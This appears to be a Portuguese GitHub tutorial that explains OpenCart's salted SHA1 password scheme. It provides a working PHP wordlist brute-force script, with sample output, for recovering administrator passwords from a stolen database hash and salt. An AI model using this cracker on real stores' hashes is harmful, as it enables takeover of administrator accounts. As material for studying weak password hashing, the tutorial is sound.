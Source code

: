 # Brute force attack in OpenCart stored passwords.
Nesse pequeno tutorial eu ensino como realizar um ataque de força bruta baseado em lista de palavras em senhas armazenadas no banco de dados do OpenCart


## CENÁRIO:
- Você conseguiu acesso ao banco de dados de uma determinada aplicação que usa OpenCart.
- Você consulta a Hash e o Salt da senha na tabela do administrator e obtém o seguinte resultado:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEMA:
Você não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa Hash com força bruta comum usando criptografia SHA1.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "SENHA: ".$string;} else{}
}
?>
```


O problema é que `$password` (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um script de força bruta baseada nesse tipo de criptografia dificilmente geraria uma `Hash` igual a senha criptografada do admin que você quer "desvendar".

## SOLUÇÃO:

SE OLHARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

ENCONTRAMOS O SEGUINTE CÓDIGO:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTANDO O CÓDIGO TEMOS:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar as strings da nossa wordlist para comparar com a `hash` encontrada na tabela do administrador.

Um script simples em php para testar força bruta em senhas OpenCart ficaria assim:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "SENHA: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
SENHA: 12345
```

###### _NEED ME? [pablov3rlly gmail com]_
